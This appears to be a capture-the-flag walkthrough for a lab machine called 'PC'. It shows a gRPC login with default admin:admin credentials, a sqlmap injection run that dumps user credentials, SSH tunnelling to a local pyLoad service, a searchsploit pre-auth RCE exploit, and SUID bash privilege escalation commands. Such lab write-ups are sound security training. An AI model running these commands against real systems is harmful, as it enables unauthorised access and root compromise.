 # PC

ports 22 and 50051
50051 being gRPC

![](Screenshots/2023-08-29-17-02-55.png)

after installing and launching gRPCUI

https://github.com/fullstorydev/grpcui

`./grpcui -plaintext $IP:50051`

![](Screenshots/2023-08-29-17-02-16.png)

![](Screenshots/2023-08-29-17-03-27.png)

Trying default params we find `admin:admin` logs us in:

![](Screenshots/2023-08-29-17-04-46.png)

Now that we have a token, we can try and request info, However we got an interesting error, since that's the case we can attempt SQLi

![](Screenshots/2023-08-29-17-06-29.png)

save the request from BURP to a file and run an sqlmap with the request, by itendifying `id` as the parameter. `sqlmap -r http.req --risk=2 --level=2 -v 3 --tables -p id`

![](Screenshots/2023-08-29-17-10-24.png)

Dumping accounts provides us with credentials for user `sau`

![](Screenshots/2023-08-29-17-13-47.png)

`ssh sau@$IP`

![](Screenshots/2023-08-29-17-17-34.png)

manually enumerating we find some service running on port 8000:

![](Screenshots/2023-08-29-17-18-40.png)

So we'll use port tunneling through ssh to view what's on port 8000. `ssh sau@<IP> -L 8000:127.0.0.1:8000`

![](Screenshots/2023-08-29-17-20-30.png)

Checking what's on there in our browser of choice. It's a pyLoad, not too familiar what that is, but ...

![](Screenshots/2023-08-29-17-21-05.png)

`searchsploit pyload` finds a pre-auth RCE

![](Screenshots/2023-08-29-17-22-12.png)

`searchsploit -m 51532.py` copies the exploit to the current directory

![](Screenshots/2023-08-29-18-28-58.png)

Pretty straight forward usage. The script URL encodes `" "` for us but nothing else, so we we'll need to URL encode that ourselves.
```bash
"/" - "%2F"
"+" - "%2b"
```
You'll need to URL encode all special characters for which ever command you'll be using to escalate, I like just using `cp /bin/bash /tmp/moon/rootbash` and then `chmod u+s /tmp/moon/rootbash` . As we're on a public server make your own temporary location for your files to not disrupt other's experience. If we'd just add an SUID bit to /bin/bash someone might find that and use it before finding PyLoad therefore skipping the PrivEsc part of the CTF.

![](Screenshots/2023-08-29-17-58-07.png)

![](Screenshots/2023-08-29-17-58-32.png)